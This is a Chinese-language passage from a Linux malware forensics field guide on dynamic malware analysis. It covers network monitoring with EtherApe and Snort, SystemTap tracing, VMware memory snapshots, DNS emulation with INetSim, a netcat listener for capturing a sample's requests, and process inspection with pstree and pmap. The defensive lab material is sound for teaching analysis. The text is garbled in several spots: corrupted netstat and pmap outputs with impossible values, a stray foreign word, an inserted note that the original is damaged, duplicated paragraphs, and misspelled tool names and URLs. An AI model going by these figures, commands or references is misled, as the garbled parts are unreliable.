- 除了捕获和显示完整的网络流量内容外，使用网络可视化工具作为网络流量的高级地图也是帮助的。通过此，数字取证人员可以快速获得活动主机、正在使用的协议以及生成的流量量的整体视角。这里一个非常有用的工具是 EtherApe，²⁷，一个开源网络拓图分析器。

- EtherApe 显示活动节点的主机和 IP 地址，以及在网络流量中捕获的相应协议。

- 为了区分网络流量中的协议，每个协议都被分配了唯一的颜色，并在工具界面上显示相应的协议代码，如图 6.15 所示。

- EtherApe 高度可配置性，允许用户自定义捕获格式。此外，EtherApe 可以读取和重放保存的流量会话。EtherApe 的替代方案是 `jpcap`，²⁸，一个基于 Java 的网络工具，可对网络流量进行实时分解和可视化。

- 除了监控网络流量，还要检查被感染系统上的实时开放活动，以及被感染系统请求的远程系统的端口号。²⁷ 有更多关于 EtherApe 的信息，请访问 http://etherape.sourceforge.net/

²⁸ 有更多关于 `jpcap` 的信息，请访问 http://jpcap.org/

图 6.15-使用 EtherApe 监控流量

# Linux 系统恶意软件取证领域指南

## 网络活动查看 (Net Activity Viewer)


图 6.18- 在 NetActView 中捕到的端口活动

- NetActView 拥有许多分析选项，例如刷新率校准（自动刷新为标准配置）、连接列表排序，以及将连接列表快照保存为格式化文本或 CSV 文件的能力（图 6.18）。

## 系统和动态库调用

- 在对恶意代码样本进行动态分析时，另一种需要执行的活动监控是拦截从可疑程序到操作系统内核的系统调用。

- 用户空间应用程序无法直接与内核通信。系统调用是促进这种从用户空间到内核空间通信的接口。

- 可疑程序的系统调用和动态库调用可以提供关于程序性质和目的的深刻的见解，例如文件、网络和内存访问。

- 因此，通过监控系统调用——本质上是“监视”程序——数字取证人员可以观察执行的程序与内核的交互。拦截的信息为取证人员提供了极佳的路线图，通常指向关于系统或网络活动的关联信息。

- 用于拦截系统和动态库调用的强大且功能丰富的工具包括 `trace`,³² `Systemtap`,³³ `ltrace`,³⁴ 和 `Mortadelo`³⁵（图 6.19）。

> ³² `trace` 是 Linux 系统的原生工具，但该项目在 SourceForge 上维护。更多信息请访问 http://sourceforge.org/projects/trace/

³³ 有更多关于 `Systemtap` 的信息，请访问 http://sourceware.org/systemtap/ 和 http://sourceware.org/systemtap/wiki。


³⁴ `ltrace` 是 Linux 原生的，但该项目在 Freecode 上维护。更多信息请访问 http://freecode.com/projects/ltrace

³⁵ 有更多关于 Mortadelo 的信息，请访问 http://gitorius.org/mortaldo/pages/Home 和 https://people.gnome.org/-federico/news-2007-06.html#mortaldo。

# 第 6 章 恶意软件样本分析


**图 6.1- 使用 Mortadelo 捕获异常进程的系统调用**

## 使用网络入侵检测系统 (NIDS) 进行异常检测和基于事件监控

- 除了监控受害主机系统的完整性以及捕获进出系统的网络流量外，还要部署 NIDS 来识别异常活动。
- 在实验室环境中部署 NIDS 似乎与部署网络流量监控是重复的。然而，NIDS 的部署与简单的收集和观察网络包以进行实时或离线分析有所不同。
- 特别是，NIDS 可以通过检查网络流量包（以及有效负载）来主动监控，并进行实时流量分析，以识别并响应异常或敌对活动。相反，可以配置 NIDS 检查网络流量包，并被动地记录大量告报，报告可疑流量以备日后审查。

> 其他待考虑的工具
>
> NIDS
>
> 备用 IDS/NIDS 解决方案的详细说明见在本章末尾的工具箱，以及本领域指南的配套网站 www.malwarefieldguide.com/LinuxChapter6.htm。

- 有许多可以实现此目的的 NIDS，但对于一种轻量、强大且稳健的解决方案，`Snort`³⁶ 被认为是最流行和广泛使用的。`Snort` 灵活可配置且多用途，允许用户以三种不同的模式实现：嗅探模式 (`Sniffer Mode`)、包日志模式 (`Packet Logger`) 和 NIDS 模式³⁷

> ³⁶ 有更多关于 Snort 的信息，请访问 http://www.snort.org。

- **嗅探模式 (`Sniffer Mode`)** 允许数字取证人员捕获网络流量并将包打印到终端。`Snort` 是 `Wireshark`、`tcpdump` 以及其他网络协议分析器的极佳替代方案，捕获的流量可以用人类可读且直观的格式显示（例如，`snort -vd` 指令 `Snort` 嗅探网络流量并将结果通过 (-v) 打印到命令行终端，包括数据包负载的转储 (-d)；或者使用 -x 以十六进制形式转储整个包）。
- **包日志模式 (`Packet Logger Mode`)** 捕获网络包并将输出记录到用户指定的目录（默认日志目录为 `/var/log/snort`）。使用 `-l` 目录切换器调用纯文本告报和日志，使用 `-L` 将捕获保存为二进制日志文件。
- **在 NIDS 模式下**，`Snort` 应用配置文件 (`snort.conf`) 中建立的规则和指令，该文件作为通过以下方式监控和分析流量的异常或敌对活动的机制：`snort -c /etc/snort/snort.conf`。`Snort` 配置文件包含变量（你的网络配置值）；预处理器 (`preprocessors`)，允许 `Snort` 检查和处理网络流量；输出插件 (`output plugins`) 以及规则 (`rules`)，它们定义了 `Snort` 应该监控的特定网络事件或活动。
- 精通 `Snort` 本身就是一门专业；要更深入地了解安装和部署 `Snort`，可以考虑用户手册³⁸ 或其他参考资料，如用户手册³⁸。

# Linux 系统恶意软件取证指南

## 其他可考虑的工具（续）

- `OSSIM`：开源安全信息管理（`OSSIM`）框架（[http://www.alienvault.com/open-threat-exchange/projects/ossim-tab）。
- `SGUIL`：读音为 "sgweel"，以保持 `Snort` 的命名风格。`SGUIL` 是由 Bamamm Visscher 开发的 GUI，为用户提供实时事件、会话数据和原始数据包捕获。`SGUIL` 由三个部分组成——服务器、传感器和客户端，并依赖许多不同的应用程序和相关软件才能正常运行（http://sguil.sourceforge.net/）。David J. Bianco 编写了《`SGUIL` 操作指南》，这是安装和配置 `SGUIL` 的非常有用的指南（http://www.vorant.com/nsmwiki/Red_Hat_HOWTO）。


- `Snortarni`：一个 Perl 程序，用于从 Snort 获取告警文件并生成用于诊断检查和问题跟踪的 HTML 输出。其模式是使用 cron 任务或类似工具生成每日/每周/每周的 Snort 告警文件。该脚本可以在每个文件上运行，生成所有告警的便捷 HTML 分类报告（http://sourceforge.net/projects/snortarni/）。

## 执行物证采集：数字压痕与痕迹证据

- 与现实世界的犯罪现场类似，数字犯罪现场包含压痕证据和痕迹证据，这些有助于识别恶意软件、感染对受害者系统的影响以及可能部署恶意软件的嫌疑人。数字压痕和痕迹证据的收集并非一种独立的监控技术，而是涵盖通过主动和被动系统监控收集的所有制品总和。

### 压痕证据 (Impression Evidence)

- 在传统的法医学和犯罪现场分析背景下，压痕证据是在犯罪现场表面留下的痕记、模式和特征——例如轮胎印、鞋印和工具痕。
- 压痕证据是宝贵的证据，因为它可以作为与嫌疑人相关的唯一标识，或者揭示犯罪发生的某些事件或方面。
- 收集并保存压痕证据是为了与其它证据、印模、样本或已知标本进行比较。
- 传统上，调查人员收集压痕证据的方法是通过压痕翻模——使用石膏复合料、硅胶或粉末等材料创建压痕的副本。

## 第 6 章：恶意软件样本分析

- 收集的压痕具有个体特征或类别特征。
  个体特征是某个特定实体或个人独有的。相反，类别特征是某组群体共有的特征。

### 痕迹证据 (Trace Evidence)

- 传统犯罪现场分析中的痕迹证据包括头发、纤维、土壤、颗粒、残留物和其他材料，这些物质由于嫌疑人的存在引入犯罪现场；或者相反，是由于受害者在犯罪现场之外的互动和接触导致，从而将痕迹证据引入犯罪现场。通过接触转移痕迹证据被称为“洛卡德交换原理”（Locard's Exchange Principle），该原理假设“每一种接触都会留下痕迹”。

### 数字压痕证据

在 Linux 系统恶意软件取证的背景下，数字压痕证据是由于恶意代码的执行和表现而在受害者系统的物理内存和文件系统中留下的印记和制品。
- 数字压痕证据可以是与特定恶意代码相关的唯一标识，也可以揭示在嫌疑恶意软件执行和表现期间事件是如何发生的。
- 收集并保存数字压痕证据是为了与其他证据、或已知的恶意代码感染模式和制品进行关联分析和比较。例如，受害者文件系统上新建的文件应该被收集并分析。
- 与现实世界的犯罪现场取证类似，收集的数字压痕具有个体特征或类别特征。

### 数字痕迹证据

在恶意软件取证的背景下，数字痕迹证据包括由于嫌疑恶意软件的执行和表现而引入受害者系统/数字犯罪现场的文件或其他制品；或者相反，由于受害者的在线活动导致数字痕迹证据引入犯罪现场。
数字压痕和痕迹证据的收集涉及数字铸模——或在恶意软件执行期间被动地记录和收集数字压痕和痕迹证据，并在对嫌疑程序的动态分析期间增强实时监控和分析。生成的“数字铸模”补充了通过主机完整性和安装监控器收集的证据，后者显示了与纯净系统快照相比产生的系统变化，但并未显示完整的执行轨迹以及压痕和痕迹证据是如何表现的。

## Linux 系统恶意软件取证实战指南

- `SystemTap` 是在动态分析期间实施本地系统监控以获取数字压痕和痕迹证据的有用工具。
- `SystemTap` 为数字调查员提供了关于嫌疑程序如何运行以及与主机系统交互的深度见解，收集产生的数字压痕和痕迹证据。
- `SystemTap` 框架允许数字调查员开发脚本来监控内核空间中的无数活动。可以从广泛的系统级视角获取数据，也可以调整光径以关注特定的系统事件。这种细粒度的过滤机制使调查员能够直观地识别导致状态变化的进程，例如文件访问、写入、修改和删除。
- 例如，如图 6.20 所示，在执行恶意 ELF 程序后，`SystemTap` 显示了由于程序执行轨迹在受害者系统中产生的压痕。
- 监控套件，如 `Inode Notify` (`inotify`) `FAM` 和 `Gamin`（在工具箱附录讨论），也可以用于跟踪受害者系统上的数字痕迹证据。

### 物理内存中的痕迹与压痕证据

正如第 6 章所述，数字压痕证据是由于恶意代码的执行和表现而在受害系统的物理内存和文件系统中留下的印记和制品。
- `SystemTap` 框架允许数字调查员开发脚本来监控内核空间中的无数活动。可以从广泛的系统级视角获取数据，也可以调整光径以关注特定的系统事件。（注：原文此处之后出现损坏）。
- 生成的“数字铸模”补充了通过主机完整性和安装监控器收集的证据，后者显示了与纯净系统快照相比产生的系统变化，但并未显示完整的执行轨迹以及压痕和痕迹证据是如何表现的。

除了这些工具和技术外，还可以通过两种不同的方法在虚拟机上挂起活动感染系统，通过识别数字特征和痕迹证据来增强物理内存的数字取证：
- 一种方法是在虚拟机被恶意软件样本感染后，使用 VMware 的“挂起（Suspend）”功能保存客系统的内存状态。
- 执行可疑恶意软件样本并让其运行合理的时间，以完成完整的执行轨迹，并在内存中表现出潜在的数字特征和痕迹证据。
- 当选中虚拟机时，使用如图 6.21 所示的“挂起此虚拟机”功能。这将为已感染且当前已挂起的虚拟机创建一个 `.vmem` 文件。
- VMware 的 `.vmem` 文件是虚拟机的分页文件，包含了虚拟机的内存（也称为客机）；它保存存在数字取证人员的系统分析系统（也称为主机）上。
- 收集与受感染的 VMware 客机相关的 `.vmem` 文件，使用 `SecondLook`、`Volatility` 或选定的内存取证工具进行分析。（这些工具的详细讨论请见第 2 章。）
- 另一种方法是使用“快照（snapshot）”——即受感染客机系统的保存状态——来保存系统的“当前”运行状态。
- 在系统活动期间进行操作时，VMware 快照操作会创建其他文件，包括一个对应快照的 `.vmem` 文件。此外，还会创建一个包含系统内存、其他系统数据和元数据的快照文件 (`.vmsn`)。

47 http://www.vmware.com/pdf/ws80-getting-started.pdf, p. 54.
48 在 Linux 系统上，相应已挂起虚拟机的 `.vmem` 文件默认路径为 `/home/<user>/vmware/<guest VM>/<vm name-uuid>.vmem`。
49 有关 `SecondLook` 的更多信息，请访问 http://secondlookforensics.com/。
50 有关 `Volatility` 的更多信息，请访问 https://www.volatilesystems.com/default/volatility 和 http://code.google.com/volatile。
51 在 Linux 系统上，相应快照的 `.vmem` 文件默认路径为 `/home/<user>/vmware/<guest VM>/<snapshot_name_and_number>.vmem`。关于 እንደሚ的进一步信息，请访问 http://pubs.vmware.com/vsphere-5/index.jsp?topic=%22fcom.vmware.vsphere.vm_admin.doc_50%2FGUGID-38F4D57A-ADE7-4B80-AEAB-7EC502A379F4.html。

## 第 6 章 恶意软件样本分析

# 439


图 6.22——在 VMware Workstation 中快虚拟机虚拟机

- 某些版本的 VMware（如 ESX）会创建一个“虚拟挂起系统状态”（`.vmsn`）。52 这也可以用于提取轨迹和特征证据。53
- 要利用快照功能，执行目标恶意软件样本并允许运行片刻以确保执行轨迹。
- 在运行过程中，通过快照功能（图 6.22）对系统状态拍摄快照，以保存 VMware 客机的感染系统状态。
- 拍摄受感染系统状态的快照后，可以在 `SecondLook`.54 和 `Volatility`.55 或选定的其他取证工具中解析与感染客机系统相关的 `.vmem` 文件（有关这些工具的详细讨论请见第 2 章）。

## 执行恶意代码样本

在拍摄了原始系统状态的快照并准备好监控环境后，你就可以准备好执行你的恶意代码样本了。
- 如前所述，动态监控恶意代码样本的过程需要大量的暂停、审查监控工具中收集的数据、反转虚拟主机（如果你选择使用虚拟化）以及重新执行样本，以确保在分析过程中不会遗漏任何行为。

52 有关 VMware ESX 如何创建和使用 `.vmsn` 文件的更多信息，请访问 http://pubs.vmware.com/es254/admin/whelp/whimpl/common/html/whelp.htm?context=admin&file=sx254admin_snapshot.14.html。
53 有关如何使用 `Volatility` 分析快照文件信息，请访问 http://code.google.com/p/volatility/wiki/VMwareSnapshotFile。
54 有关 `SecondLook` 的更多信息，请访问 http://secondlookforensics.com/
55 有关 `Volatility` 的更多信息，请访问 http://www.volatilesystems.com/default/volatility 和 http://code.google.com/p/volatility/

在此过程中，有多种执行恶意软件样本的方法；通常这种选择取决于数字取证人员选择实施的被动和主动监控。
目标样本的执行也取决于文件类型。与下文描述的可以通过其他工具调用的 ELF 文件不同，恶意文档（如果设计为针对 Linux 平台）如 PDF 和 MS 文件通常需要数字取证人员手动打开并：
- 简单执行：第一种是简单执行程序并开始监控主机系统。虽然这种方法可行，但它没有提供观察程序内部的窗口。
- 安装监控：如前所述，一种常用方法是将样本加载到如 `InstallWatch` 等安装程序中，以捕获其引起的变化。
- 系统调用跟踪：为了监视行为，可以通过系统调用工具启动恶意软件。
- 用户空间与内核空间不同，内核是操作系统的核心。为了内存管理和安全，内核限制了可以访问的资源。无论选择何种执行方法，在执行之前开始监控主机系统和网络都是重要的。

56 有关 `InstallWatch` 的更多信息，请访问 http://asic-linux.com/~izto/checkinstall/installwatch.html。

## 第 6 章 恶意软件样本分析

# 441

> **分析技巧**
> 重新哈希
> 在程序执行后，获取程序的哈希值。虽然这些信息在文件分析过程中已收集，但请记住执行恶意代码通常会导致其从执行位置移除并隐藏在新的非标准位置。当发生时，恶意软件可能会更改文件名和属性，如果没有哈希值很难检测和定位。将文件分析过程中收集的原始哈希值与“新”文件的哈希值进行比较，可以对文件进行确定识别。

## 执行轨迹分析：观察网络、进程、系统调用和文件系统活动

恶意软件的执行可以类似于传统的取证学科，它们检查轨迹——即实体的路径或进展。在数字犯罪现场重建的背景下，“执行轨迹”是恶意代码样本从执行点开始到感染生命周期期间与受害者系统及外部网络资源的交互。
执行轨迹分析的关键方面包括：
* 网络活动
* 进程活动
* 系统和动态库调用
* 文件系统活动

## 网络活动：网络轨迹、特征和痕迹证据

执行目标恶意软件样本后，观察程序发出的立即请求，包括：
* 尝试域名查询
* 尝试 TCP/IP 连接
* 尝试的 UDP 数据包传输
* 异常流量（例如 ICMP），用于尝试隐蔽通信、命令与控制等。

# Linux 系统恶意软件取证领域指南

- 某些可供安装在你的恶意软件实验室的免费应用程序防火墙软件示例包括：
  - `LeopardFlower`57
  - `TuxGuardian`58
  - `Program Guard` (`pgrd`)59
- 在 `Wireshark` 中捕获的实时网络流量可用于与防火墙活动关联。在恶意软件样本具有反监视能力（例如终止带有杀毒软件、防火墙和其他安全软件的进程）的情况下，收集信息也具有优势。
- 在开始阶段，执行轨迹的目、恶意软件样本发起的网络请求的目的或意义是未知的。
- 为了让样本能够完全执行并表现出其在“野外”环境中的行为，数字调查人员需要调整实验室环境，以满足样本解析网络资源的请求，从而促进其自然的执行轨迹。
- 实验室的环境调整是可疑程序行为分析中至关重要的过程。对于模块化恶意代码（如银行木马、勒索软件套件和机器人），一种常见的调整方法是仿真域名系统（DNS），以解析目标样本中硬编码的域名名。

## 环境仿真与调整：网络轨迹重建

- 通过调整恶意软件环境并提供样本所需的资源，数字调查人员可以进行网络轨迹重建——或重现样本完全完成感染生命周期所采取的方式和路径。
- 有许多方法可以调整实验室环境来解析域名。
- 第一种方法是建立 DNS 服务器，其中查询记录将域名解析为实验室网络上另一个系统的 IP 地址（通常是建议建议的 Linux 服务器主机）。用于辅助此方法的常用、轻量级且直观的工具包括 `BIND`,60 `djbind/bind`,61 `MaraDNS`,62 和 `Dnsmasq`,63

57 了解更多关于 `LeopardFlower` 的信息，请访问 http://leopardflower.sourceforge.net。
58 了解更多关于 `TuxGuardian` 的信息，请访问 http://tuxguardian.sourceforge.net/.
59 了解更多关于 `Program Guard` (`pgrd`) 的信息，请访问 http://pgrd.sourceforge.net/.
60 了解更多关于 `BIND` 的信息，请访问 http://www.isc.org/downloads/bind/
61 了解更多关于 `djbinds/bindyns` 的信息，请访问 http://cr.py.to/djbinds.html。
62 了解更多关于 `MaraDNS` 的信息，请访问 http://www.maradns.org/
63 了解更多关于 `Dnsmasq` 的信息，请访问 http://www.thekkelleys.org/dnsmasq/doc.html。

# 第 6 章 恶意软件样本分析

- 建立完整 DNS 服务器的替代方案是使用诸如 `INetSim` 的工具。`INetSim` 可以配置为将所有 DNS 查询重定向到本地主机或用户指定的 IP 地址（通常是 Linux 服务器）。如图 6.23 所示，一旦启动，`INetSim` 就会在 UDP 端口 53（DNS 的默认端口）上监听流量。


INetSim process started (PID 3544)    labMalwareLab: $ `netstat -an`
Active Internet connections (servers and established) State
Proto Recv-Q Send-Q Local Address         Foreign Address       State
udp 0               0 127.0.0.1:*               0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:*               0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:123          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:113          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:117          0.0.0.0:*               LISTENER
tp 000 00..0..011000000.00.00                                00  000.0.0.1.1          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:14311         0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:53          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:113          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:117          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:14667         0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:11110         0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:123          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:111          0.0.0.0:*               LISTENER
tp 0               0 127.0.0.1:511          0.0.0.0:*               LISTENER
tudp 0               0 127.0.0.1:113          0.0.0.0:*               LISTENER
tudp 0               0 127.0.0.1:117          0.0.0.0:*               LISTENER
tudp 0               0 127.0.0.1:117          0.0.0.0:*               LISTENER
tudp 0               0 0.0.0.0:3337         0.0.0.0:*               LISTENER
tudp 0               0 127.0.0.1:149         0.0.0.0:*               LISTENER
tudp 0               0 127.0.0.1:123          0.0.0.0:*               LISTENER
FIGURE 6.23-使用 INetSim 解析 DNS 查询

另一种简单的解决方案是修改系统 hosts 文件——通过将 IP 地址与主机名相关联来作为解析主机名的手段。在 Linux 系统上，hosts 文件位于 `/etc` 目录。

要修改 hosts 文件中的项，请进入 `/etc` 目录并使用 `vi` 或偏好的文本编辑器打开 hosts 文件。编辑文件时确保你拥有正确的用户权限，以便保存更改。

通过输入你希望域名解析到的 IP 地址，通常是虚拟 Linux 系统的 IP 地址，后跟一个空格，然后是需要解析的目标域名来添加相关域名。hosts 文件提供了示例项作为参考。

## 网络轨迹：链式追踪

在调整环境解析样本的域名，并将域名指向实验室网络上虚拟服务器的 IP 地址后，监控样本的反应及其对受害系统的影响。

- 密切跟踪网络流量，因为添加新的域名项可能会样本表现出新的行为。例如，为了追踪图 6.24 中恶意软件发起的请求，数字调查人员应在指向的虚拟 Linux 主机上启动 Web 服务器；这样受感染系统就可以加入其命令控制结构，见图 6.25。

FIGURE 6.24—网络轨迹

FIGURE 6.25—在 Web 服务器日志中捕捉样本的请求

# 网络特征与网络痕迹证据

网络特征证据包括归因于可疑程序的网络流量中的痕迹和人工制品。同样，网络痕迹证据是指可疑恶意软件的执行和表现而引入网络流量并最终进入受害者系统的文件或其他人工制品；反之，也是受害者在线活动产生。从网络特征和痕迹证据中可以获取以下调查科学信息：

- 解析域名的目的。在解析域名后，恶意软件样本会揭示其为了维持感染生命周期所需的远程资源的性质和目的。例如，如果解析出的域名显示恶意样本正在请求 Web 服务器，并在实验室环境中使用 Web 服务器来捕获轨迹，Web 服务器日志可能会揭示可疑程序需要解析该域名以返回并下载额外文件。

- 模块化恶意代码的标识符可能作为痕迹证据被引入受害者系统。如果识别出证据并可能获取痕迹文件，请模拟恶意软件样本像在真实环境中那样完全执行。如果可能，离散地检索并分析请求的文件，并将它们内部托管在您的恶意软件实验室服务器上，以执行样本的运行轨迹。

- 功能解释。在网络特征证据中捕获的样本所显示的功能，可以提供关于可疑样本性质和目的的进一步见解。例如，如果特征证据显示木马程序尝试连接到其他在线资源，如 Web 或 FTP 服务器并秘密下载额外的恶意软件文件，那么它可能是一个木马下载器。

- 元数据。嵌入在捕获 Web 流量中的网络特征是 user-agent 字符串。user-agent 字符串识别 Web 浏览器并提供如浏览器访问的 Web 服务器等某些系统细节。在图 6.25 中，user-agent 字符串为“Opera/9.80 (X11; Linux i686) Presto/2.12.388 Version/12.16。”数字调查人员应研究并记录与 user-agent 字符串相关的发现；这些元数据可能为攻击者或恶意软件的功能和目的提供进一步见解。

> 65 关于针对 Linux 及其他操作系统的木马下载器示例，请参见：http://www.zdnet.com/cross-platform-trojan-checks-your-os-attacks-windows-mac-linux-7000000656/ .

# LINUX 系统恶意软件取证指南

## 使用 Netcat 监听器

用于拦截 Web 请求内容和其他网络连接的另一种方法是在实验室网络中的另一台主机上建立 netcat 监听器。

- 回想之前的章节，`netcat` 是一个强大的网络实用程序，它通过 TCP/IP 或用户数据报协议 `UDP` 跨网络连接进行读写。这对于在可疑程序用于连接的随机 TCP 和 UDP 端口上建立网络监听器非常有帮助：`netcat` 因其灵活性和用途的多样性成为许多数字调查人员喜爱的工具，而且它是许多 Linux 发行版中原生安装的。在获可疑程序请求连接的远程端口后，数字调查人员可以在恶意软件实验室 Linux 服务器的目标端口上建立 netcat 监听器来利用 `netcat`。

- 使用图 6.25 中的示例，可疑程序请求通过 80 端口从 Web 服务器下载文件：要在 Linux 服务器的 80 端口上建立 netcat 监听器，请使用 `nc` 命令并配合 `-v` 详细、`-l` 监听和 `-p` 端口开关，并识别目标端口号。`-v` 开关不是必须的，没有它也能提供更多回复，如图 6.26 所示。

```
root@MalwareLab:~# nc -lv -p 80
Listening on [172.16.16.130] [family 2, port 80]
Connection from [172.16.16.130] [http] accepted (family 2, sport 52005)
GET /index.html HTTP/1.1
User-Agent: Opera/9.0 (X; Linux 1686) Presto/2.12.388 Version/12.16
Host: 172.16.16.130
Accept: text/html,application/xml;q=0.9,application/xhtml+xml,image/png,image/webp,image/jpeg,image/gif,image/x-xmap,*;q=0.1
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
GET /index.html HTTP/1.1
User-Agent: Opera/9.0 (X; Linux 1686) Presto/2.12.388 Version/12.16
Host: 172.16.16.130
Accept: text/html,application/xml;q=0.9,application/xhtml+xml,image/png,image/webp,image/jpeg,image/gif,image/x-xmap,*;q=0.1
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

FIGURE 6.26- 用于收集网络特征证据的 netcat 监听器

## 检查进程活动

- 在对可疑程序进行动态分析期间，数字调查人员希望获取进程上下文，或作为生成进程的全视角，以及……

## 恶意样本分析

- 使用 Linux 系统原生的 `top` 命令来获取实时 CPU 使用率。数字调查人员特别感兴趣的是按 CPU 消耗降序排列的进程。默认情况下，`top` 每 5 秒刷新一次，图 6.27。

## 使用 top 评估系统使用

- 除了使用 `top` 确定资源使用外，使用 `ps` 命令检查所有进程也是很有用的。使用 `aux` 或者 `-ef` 开关允许数字调查人员获取有关进程名的详细信息，这通常表现为伪装。

## 使用 pstree 运行进程

- 显示运行进程的另一种工具是 `pstree`，它以树图显示运行进程。在恶意软件分析中，尝试评估进程关系时 `pstree` 特别有用，因为它本质上提供了进程的“祖视图”。在图 6.28 中，在 `pstree` 中发现了可疑进程 `WIFIAPT`。

```
malwarelab@MalwareLab:~ pstree
<excerpt>
init--NetworkManager--dhclient
--dnsmasq-[NetworkManager]
--WIFIAPT--(WIFIAPT)
--accounts-daemon--acpid
--anacron--sh--run-processes--apt-get
```

FIGURE 6.28— 通过 pstree 发现可疑进程

- 要获取有关 `pstree` 显示进程的更细粒的信息，请使用 `-a` 开关显示显示进程的命令行参数，并使用 `-p` 开关显示分配的 PID，图 6.29。

```
malwarelab@MalwareLab:~ pstree -a -p
<excerpt>
init,1
--NetworkManager,943
--dhclient,982 -d -4 -sf
--dnsmasq,1199 --no-resolve --keep-in-foreground
--(NetworkManager),952
--NetworkManager),983
--WIFIAPT,3783
--(WIFIAPT),3784
--accounts-daemon,1421
--acpid,1109 -s /etc/acpi/events -s /var/run/acpid.socket
--anacron,1106 -s
--sh,2463 -c nice run-processes --report /etc/cron.daily
--run-parts,2464 --report /etc/cron.daily
```

FIGURE 6.29— 使用 pstree 识别命令行信息和 PID

# 使用 GUI 工具检查运行进程

- 某些数字取调查人员倾向于在对可疑二进制文件进行运行时分析时，使用基于图形的实用程序检查运行进程。

- 使用 Linux Process Explorer⁶⁹ 或类似的分析工具收集基本的进程信息，如进程名称和 PID。在随后的查询中，寻求特定的进一步细节以获取进程详情：

- 进程名称和 PID

- 时间上下文

- 内存消耗

- 进程执行的程序映射

- 进程与用户的映射

- 子进程

- 线程

- 被调用的库和依赖项

- 用于调用该进程的命令行参数

- 进程的内存内容

- 与系统状态和产物的关联上下文

- 此外，通过在 Linux Explorer 主面板中对可疑进程点击右键，数字取调查人员将看到许多其他可用于进一步处理的功能，例如进程环境、线程和相关的 TCP/IP 连接，如图 6.30 所示。


图 6.30—使用 Linux Process Explorer 分析进程

⁶⁹ 有关 Linux Process Explorer 的更多信息，请访问 http://sourceforge.net/projects/procexp/

# 进程内存映射

除了检查受感染系统上的进程外，数字取调查人员还应该考虑在查看可疑程序处于执行状态并作为进程运行时其内存映射。

- 应将内容与之前通过进程监控实用程序捕获以及在 `/proc/<pid>/maps` 文件中识别出的信息进行比较，以发现任何不一致或异常。

- `pmap` 大多数 Linux 发行版的原生工具⁷ 可以识别进程调用的模块，并揭示相应库加载的内存偏移，如图 6.31 所示。

# 获取和检查进程内存

在获取有关受感染系统上运行进程的充分上下文，特别是由恶意软件样本创建的进程后，捕获进程的内存内容以便进一步检查非常有帮助。

- 正如第 2 节所述，有许多方法和工具可以从 Linux 系统上的运行进程中转储进程内存，其中某些依赖于 Linux 系统的原生实用程序，而另一些则需要实现额外的工具。

- 在获取可疑进程的内存内容后，这些内容包含任何关于可疑程序的详细线索。如第 2 节提到的，数字取调查人员可以使用 Linux 系统的原生工具 `strings` 解析内存转储内容，以查找任何有意义的文本引用。此外，如果使用 `gcore`⁷ 获取了核心镜像，格式为 ELF 格式，可以使用 `gdb`⁷、`objdump`⁷ 和其他工具进行探测，以检查文件内部结构。

- 同样，实现 Tobias Klein 的 Process Dumper⁷ 并结合 Memory Parser⁷，将允许数字取调查人员获取并彻底解析可疑进程的状态、关联数据、代码映射、元数据和环境，以寻找任何正确或异常的信息。

⁷⁰ 有关 `pmap` 的更多信息，请访问 procps.sourceforge.net/.

⁷¹ 有关 `gcore` 的更多信息，请访问 http://manpages.ubuntu.com/manpages/lucid/man1/gcore.1.html。

⁷² 有关 `gdb` 的更多信息，请访问 http://www.gnu.org/software/gdb/

⁷³ 有关 `objdump` 的更多信息，请访问 http://www.gnu.org/software/binutils/

⁷⁴ 有关 Process Dumper 的更多信息，请访问 http://www.trapkit.de/research/forensic/pd/

⁷⁵ 有关 Memory Parser 的更多信息，请访问 http://www.trapkit.de/research/forensic/mmp/index.html。

# 第 6 章恶意软件样本分析

```
malwarelab@MalwareLab:~$ pmap -x 3783
```


```
3783: /home/malwarelab/Malware Repository/Wirenet/avx
| Address | Kbytes | RSS | Dirty | Mode | Mapping |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0804000 | 0 | 52 | 0 | r-x-- | WIFIAPT |
| 08057000 | 0 | 4 | | rw-- | WIFIAPT |
| 08058000 | 0 | 4 | | rw-- | WIFIAPT |
| 08059000 | 0 | 8 | | rw-- | [ anon ] |
| 084d7000 | 0 | 4 | | rw-- | [ anon ] |
| b6a66000 | 0 | 16 | | r-x-- | libXext.so.6.4 |
| b6a76000 | 0 | 4 | | rw-- | libXext.so.6.4 |
| b6a77000 | 0 | 4 | | rw-- | libXext.so.6.4 |
| b6a8c000 | 0 | 8 | | r-x-- | libXdmcp.so.6.0.0 |
| b6a91000 | 0 | 4 | | rw-- | libXdmcp.so.6.0.0 |
| b6a92000 | 0 | 4 | | rw-- | libXdmcp.so.6.0.0 |
| b6a93000 | 0 | 8 | | r-x-- | libXau.so.6.0.0 |
| b6a94000 | 0 | 4 | | rw-- | libXau.so.6.0.0 |
| b6a96000 | 0 | 4 | | r-x-- | libX1.so.6.0 |
| b6a97000 | 0 | 52 | | r-x-- | libXcb.so.1 |
| b6ab6b000 | 0 | 4 | | rw-- | libXcb.so.1 |
| b6ab7d000 | 0 | 4 | | rw-- | libX1.so.1 |
| b6abc000 | 0 | 36 | | r-x-- | libX1.so.1 |
| b6abcb000 | 0 | 4 | | rw-- | libX11.so.6.3 |
| nb6cacc000 | 0 | 292 | | r-x-- | libX11.so.6.3 |
| b6b6cf000 | 0 | 4 | | rw-- | libX11.so.6.3 |
| b6b6fd000 | 0 | 8 | | rw-- | libX11.so.6.3 |
| b6bff0000 | 0 | 4 | | rw-- | [ anon ] |
| b6c00000 | 0 | 88 | | rw-- | [ anon ] |
| b6c2b9000 | 0 | 0 | | rw-- | [ anon ] |
| b6d55000 | 0 | 4 | | rw-- | [ anon ] |
| b6d56000 | 0 | 20 | | rw-- | [ anon ] |
| b75560000 | 0 | 4 | | rw-- | [ anon ] |
